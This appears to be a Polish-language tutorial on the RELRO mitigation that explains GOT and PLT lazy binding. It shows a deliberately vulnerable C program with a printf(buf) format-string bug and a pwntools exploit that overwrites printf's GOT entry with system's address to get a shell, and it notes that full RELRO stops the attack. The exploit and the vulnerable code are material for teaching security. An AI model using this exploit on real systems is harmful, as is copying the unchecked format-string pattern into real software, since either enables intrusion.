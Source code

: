 # RERLO

### 1.1 Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieja dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 1.2 Proof of Concept - got overwrite with format string


Kompilacja:
- PIE: NO
- ASLR: NO
- EXEC: NO
- CANARY: NO
- RERLO: NO

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32 -fno-stack-protector -no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyje exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - chcieliśmy nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

